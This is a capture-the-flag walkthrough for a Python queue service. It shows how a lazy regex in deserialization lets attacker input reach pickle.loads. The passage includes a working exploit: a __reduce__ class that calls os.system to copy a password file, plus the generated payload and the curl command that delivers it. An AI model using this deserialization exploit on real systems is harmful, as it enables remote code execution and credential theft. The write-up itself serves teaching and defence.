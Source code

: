 ## Level 5: validate input strictly enough

This is a quite realistic challenge:
the code is not trivial,
not badly written,
doesn't have too obvious mistakes.

What can we see easily?
The description tells us the program is uppercasing service,
and we can use like this:
```
$ curl localhost:8005 -d 'hello friend'
{
    "processing_time": 1.621246337890625e-05, 
    "queue_time": 0.2028050422668457, 
    "result": "HELLO FRIEND"
}
```

The description also tells us that the service is structured as a queue server and a queue worker.
Sure enough,
in the `main` method we can see two modes of invocation,
using `worker` or `server` as the command line argument.

We could play with random invalid inputs,
but that won't really give anything interesting.
This time we really have to dig into the code.
Let's start by tracking down how the input is processed.

As we are sending the input using HTTP,
let's find the HTTP service implementation:
the `QueueHttpServer` class has two methods for handling GET and POST requests.
The `do_GET` method simply prints a help message and doesn't handle any inputs.
The `do_POST` method takes the POST data and passes it to a new `QueueServer` instance:
```
def do_POST(self):
        length = int(self.headers.getheader('content-length'))
        post_data = self.rfile.read(length)
        raw_data = urllib.unquote(post_data)

        queue = QueueServer()
        job = Job()
        type, data, job = queue.run_job(data=raw_data, job=job)
        # ...
```
It passes the input to `QueueUtils.enqueue`:
```
class QueueServer(object):
    # Called in server
    def run_job(self, data, job):
        QueueUtils.enqueue('JOB', data, job)
        # ...
```
... which in turn passes it to `QueueUtils.serialize`:
```
    @staticmethod
    def enqueue(type, data, job):
        # ...
        serialized = QueueUtils.serialize(type, data, job)
        # ...
```
... where we can finally see something interesting:
```
    @staticmethod
    def serialize(direction, data, job):
        serialized = """type: %s; data: %s; job: %s""" % (direction, data, pickle.dumps(job))
        # ...
```
Remember that the `POST` data we send from `curl` is now in the `data` variable in the code.
What will the serialized string look like?
We can trace back that `type` can be either "JOB" or "RESULT",
`data` is whatever we send with `curl`,
and `job` is a `Job` object,
serialized to a string using the `pickle` library.
The result will look like this:
```
type: JOB; data: OUR_DATA; job: JOB_OBJ_AS_PICKLE
```

Is this safe?
What will happen if we send `x; job: hello` as the input?
The result will look like this:
```
type: JOB; data: x; job: hello; job: JOB_OBJ_AS_PICKLE
```
We don't know yet how this serialized string is used later in the program,
but having two `job:` might be an interesting corner case.
Let's see what actually happens if we call the service with such input:
```
$ curl localhost:8005 -d 'x; job: hello'
{
    "result": "Job timed out"
}
```
That doesn't look too good.
Perhaps we successfully corrupted the job data.
Let's track down what happens to the serialized string.
Notice the `deserialize` method in `QueueUtils`:
```
    @staticmethod
    def deserialize(serialized):
        parser = re.compile('^type: (.*?); data: (.*?); job: (.*?)$', re.DOTALL)
        match = parser.match(serialized)
        direction = match.group(1)
        data = match.group(2)
        job = pickle.loads(match.group(3))
```
Notice the regular expression used when setting `parser`.
Since data is matched with the non-greedy pattern `.*?`,
using an input like `; job: EVIL_CODE`,
we can trick the program into matching `EVIL_CODE` as the content of `job`,
and run `pickle.loads` on it.

How can we exploit `pickle.loads`?
For that,
we need to dig into the documentation of pickle:
http://docs.python.org/library/pickle.html,
and in particular, the `__reduce__()` method:

> When the Pickler encounters an object of a type it knows nothing about,
it looks in two places for a hint of how to pickle it.
One alternative is for the object to implement a __reduce__() method.
If provided,
at pickling time __reduce__() will be called with no arguments,
and it must return either a string or a tuple.
>
> (...)
>
> When a tuple is returned,
it must be between two and five elements long.
(...)
The contents of this tuple are pickled as normal and used to reconstruct the object at unpickling time.
>
> The semantics of each element are:
>
> A callable object that will be called to create the initial version of the object.
The next element of the tuple will provide arguments for this callable,
and later elements provide additional state information that will subsequently be used to fully reconstruct the pickled data.

Based on this info,
we can create a custom object type that Pickler knows nothing about,
and implement the `__reduce__` method to have the following properties:

- Return a tuple
- The first item in the tuple should be a callable
- The second item should be a tuple of arguments for the callable

But what should be the callable and its arguments?
Perhaps the Python equivalent of the shellcode we used in C programs?
For example,
`os.system` as the callable,
and a shell command as its argument:
```
import pickle
import os

class Exploit(object):
    def __reduce__(self):
        return (os.system, ('cat /home/level05/.password > /tmp/p',))

print '; job: ' + pickle.dumps(Exploit())
```

Let's save this in a file,
say `exploit.py`,
run it, and save its output in a text file:
```
$ python exploit.py | tee pickle.txt
; job: cposix
system
p0
(S'cat /home/level05/.password > /tmp/p'
p1
tp2
Rp3
.
```
Our crafted input has the right prefix,
`; job: `,
let's send this to the service:
```
$ curl localhost:8005 --data-urlencode @pickle.txt
{
    "result": "Job timed out"
}
$ cat /tmp/p
diebasuw
```

Bingo! The inject evil code was unpickled, and executed,
copying the content of the password file to a place where we can see.

## Lessons to learn

- Read the docs well:
  the documentation of pickle warns loud and clear right at the top not to unpickle untrusted text.

- Validate input strictly enough.
  Trace in your code all the places where the input may pass through,
  and make sure your validation is strict enough.


